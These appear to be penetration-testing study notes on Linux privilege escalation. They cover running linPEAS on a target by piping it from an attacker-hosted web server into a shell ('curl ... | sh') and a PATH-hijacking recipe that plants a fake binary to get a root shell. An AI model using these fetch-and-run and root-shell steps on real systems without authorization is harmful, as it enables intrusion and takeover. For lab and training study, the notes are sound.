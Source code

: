 # Privilege Escalation:

## linPeas:
  1. ```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

  2. Once the linpeas.sh is downloaded, we can make our own webserver for the target machine to access. That way we can run the
     linpeas script in the target machine:
        ```python3 -m http.server 80```
  3. From the target machine, we can download the linpeas script from the attacker machine's web server with a curl command:
        ```curl http://<Your_Kali_VM_IP>/linpeas.sh | sh```

  4. make sure to modify permissions to allow us to execute linpeas.sh:
    ```chmod +x linpeas.sh```
  5. GTFOBins: after linpeas has found a PrivEsc vulnerability, GTFOBins can be used to find out how to exploit the PrivEsc vulnerability:
  https://gtfobins.github.io/

## PATH PrivEsc:
1. Find a binary in the system that calls for the execution of an easily replicatable file. Let's say a binary/script calls for a file called 'thm', we can create a copy of the 'thm' file that will be found first in the PATH variable.
2. Find a writeable directory using ```find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u```
3. Choose one of the writeable directories and add that chosen directory to the path variable: ```export PATH=/tmp:$PATH``` in the case we chose tmp as the writeable directory.
4. In that writeable directory, add a file with the same name as the one you want to copy, in this case 'thm'.
5. To create an executable file use ```echo "/bin/bash" > thm```
6. Allow it to be executed with ```chmod 777 thm```
7. Go back and run the executable and you will be given a shell with root.




// 1. use ```id``` command to check which groups the user is a part of. 
// 2. once we find the groups the a user is a part of, we can use
    ```find / -group "groupName" -type f 2>/dev/null```
// to find the files that are owned by the group/user

